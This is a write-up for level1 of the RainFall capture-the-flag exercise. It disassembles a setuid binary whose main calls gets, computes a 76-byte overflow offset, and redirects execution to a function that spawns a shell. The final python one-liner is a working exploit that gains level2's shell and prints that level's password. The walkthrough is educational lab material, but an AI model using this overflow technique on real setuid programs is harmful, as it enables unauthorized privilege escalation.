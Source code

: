 ### Walkthrough

Run file, to have more detail about the file

```console
level1@RainFall:~$ file level1
level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped
```

Running ls -l to check the permissions of the file

```console
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

It's owner is level2, lets try to execute of shell inside, and get permissions of user level2

It's a 32bit executable, now we can use gdb

```asm
# disassemble main
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret 
```
```asm
# disassemble run
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret   
```

With a dessassembler we can reverse engineer the executable  
C code interpretation is in `source.c`

We will use a Buffer overflow pattern generator to calculate where the programs segfault  
`https://wiremask.eu/tools/buffer-overflow-pattern-generator/`

Offset value is `76`
We will try to jump to function `run()`, which contains a `system("/bin/sh)`

Address of run function is `0x08048444`

Because of small/big endian we shall reverse it and write it in hexadecimal
`\x44\x84\x04\x08`

```console
level1@RainFall:~$ (python -c 'print ("A" * 76 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
